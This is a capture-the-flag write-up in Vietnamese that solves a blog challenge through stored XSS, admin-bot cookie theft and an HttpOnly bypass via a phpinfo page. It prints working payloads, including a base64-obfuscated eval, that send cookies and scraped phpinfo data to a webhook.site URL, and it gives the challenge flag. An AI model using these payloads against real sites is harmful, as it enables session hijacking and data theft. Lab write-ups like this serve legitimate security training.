

# Description

> flag in cookie and plz don't dirsearch
> 
> Author: bashu

# TL;DR

Đây là một trang web cho phép người dùng đăng tải các blog post lên. Ngoài ra còn có một con bot sẽ gửi request tới endpoint mà người dùng nhập vào và một trang phpinfo. Lỗ hổng nằm ở endpoint `view.php?id=` dính **XXS** nên ta khai thác nó và lấy được flag ở cookie của admin

# Initial reconnaissance


Dựa vào description, mình hướng ngay luôn tới việc tìm cách để lấy cookie

Ngoài ra trang web còn cho phép viết post với nội dung tùy ý và gửi cho bot nữa nên mình nghĩ ngay tới việc tìm cách để XSS

Thử đăng một bài post với nội dung là `<script>alert(1)</script>`


Tuyệt vời XSS thành công ^^

Sau đấy mình chỉ việc viết payload gửi cookie về webhook của mình là xong (hoặc là không)

**Payload**: ``<script>fetch(`https://webhook.site/590bdf98-4b62-4539-b61e-4c2f034b8cdc/?data=${document.cookie}`)</script>``


Đã nhận được cookie của mình. Sau đó mình tiến hành gửi cho con bot




Tưởng mượt nhưng mà không :(

Mặc dù đã nhận được request nhưng data thì trống trơn, có thể là vì cờ HttpOnly của bot đang bật

Đoạn này mình loay hoay một hồi khá lâu thì nhớ ra là còn một dữ kiện chưa động tới là trang **phpinfo**

Nhìn qua các đoạn dữ liệu thì mình thấy cookie của mình xuất hiện ở trong đó luôn


Thế nên mình chuyển hướng sang tìm cách khiến con bot fetch đoạn cookie đó rồi mới gửi sang cho mình

**Script lấy cookie**:

```javascript
fetch('/phpinfo.php').then(r => r.text()).then(
  r => {
    const i = r.indexOf("HTTP_COOKIE");
    const data = btoa(r.slice(i, i + 500)); // lấy 500 kí tự để tránh url quá dài
    fetch(`https://webhook.site/590bdf98-4b62-4539-b61e-4c2f034b8cdc/?data=${data}`);
  }
);
```

**Payload** (mình encode lại để tránh khi render làm cho script bị lỗi):
```html
<script>eval(atob('ZmV0Y2goJy9waHBpbmZvLnBocCcpLnRoZW4ociA9PiByLnRleHQoKSkudGhlbigKICByID0+IHsKICAgIGNvbnN0IGkgPSByLmluZGV4T2YoIkhUVFBfQ09PS0lFIik7CiAgICBjb25zdCBkYXRhID0gYnRvYShyLnNsaWNlKGksIGkgKyA1MDApKTsKICAgIGZldGNoKGBodHRwczovL3dlYmhvb2suc2l0ZS81OTBiZGY5OC00YjYyLTQ1MzktYjYxZS00YzJmMDM0YjhjZGMvP2RhdGE9JHtkYXRhfWApOwogIH0KKTs='))</script>
```


**Flag**: `KCSC{PhP_InFO_d1sPl4Ys_c0okIe_iNf0rm4tiOn!!!}`